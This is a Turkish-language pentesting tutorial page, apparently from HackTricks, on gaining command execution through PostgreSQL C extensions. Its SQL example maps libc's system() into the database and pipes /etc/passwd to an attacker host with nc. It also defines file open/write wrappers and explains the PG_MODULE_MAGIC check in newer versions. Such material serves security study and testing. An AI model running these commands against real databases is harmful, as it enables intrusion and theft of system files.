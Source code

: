 # RCE with PostgreSQL Extensions

{{#include ../../../banners/hacktricks-training.md}}

## PostgreSQL Extensions

PostgreSQL, genişletilebilirliği temel bir özellik olarak geliştirilmiştir ve uzantıları, sanki yerleşik işlevler gibi sorunsuz bir şekilde entegre etmesine olanak tanır. Bu uzantılar, esasen C dilinde yazılmış kütüphaneler olup, veritabanını ek işlevler, operatörler veya türlerle zenginleştirir.

8.1 sürümünden itibaren, uzantı kütüphaneleri için belirli bir gereklilik getirilmiştir: özel bir başlık ile derlenmelidirler. Bunu yapmadan PostgreSQL, bunları çalıştırmayacak ve yalnızca uyumlu ve potansiyel olarak güvenli uzantıların kullanılmasını sağlayacaktır.

Ayrıca, **eğer PostgreSQL'i kötüye kullanarak kurbanın dosyalarını nasıl yükleyeceğinizi bilmiyorsanız, bu yazıyı okumalısınız.** [**upload files to the victim abusing PostgreSQL you should read this post.**](big-binary-files-upload-postgresql.md)

### RCE in Linux

**Daha fazla bilgi için kontrol edin: [https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/](https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/)**

PostgreSQL 8.1 ve önceki sürümlerden sistem komutlarının yürütülmesi, açıkça belgelenmiş ve basit bir süreçtir. Bunu kullanmak mümkündür: [Metasploit module](https://www.rapid7.com/db/modules/exploit/linux/postgres/postgres_payload).
```sql
CREATE OR REPLACE FUNCTION system (cstring) RETURNS integer AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');

# You can also create functions to open and write files
CREATE OR REPLACE FUNCTION open(cstring, int, int) RETURNS int AS '/lib/libc.so.6', 'open' LANGUAGE 'C' STRICT;
CREATE OR REPLACE FUNCTION write(int, cstring, int) RETURNS int AS '/lib/libc.so.6', 'write' LANGUAGE 'C' STRICT;
CREATE OR REPLACE FUNCTION close(int) RETURNS int AS '/lib/libc.so.6', 'close' LANGUAGE 'C' STRICT;
```
<details><summary>Base64'ten ikili dosya yazma</summary></details>

Ancak, daha büyük sürümlerde denendiğinde **aşağıdaki hata gösterildi**:
```c
ERROR:  incompatible library “/lib/x86_64-linux-gnu/libc.so.6”: missing magic block
HINT:  Extension libraries are required to use the PG_MODULE_MAGIC macro.
```
Bu hata [PostgreSQL belgelerinde](https://www.postgresql.org/docs/current/static/xfunc-c.html) açıklanmaktadır:

> Dinamik olarak yüklenen bir nesne dosyasının uyumsuz bir sunucuya yüklenmediğinden emin olmak için, PostgreSQL dosyanın uygun içeriklere sahip bir "sihirli blok" içerip içermediğini kontrol eder. Bu, sunucunun PostgreSQL'in farklı ana sürümü için derlenmiş kod gibi belirgin uyumsuzlukları tespit etmesine olanak tanır. PostgreSQL 8.2 itibarıyla bir sihirli blok gereklidir. Bir sihirli blok eklemek için, bu modül kaynak dosyalarından birine (ve yalnızca birine) fmgr.h başlığını ekledikten sonra şunu yazın:
>
> `#ifdef PG_MODULE_MAGIC`\
> `PG_MODULE_MAGIC;`\
> `#endif`
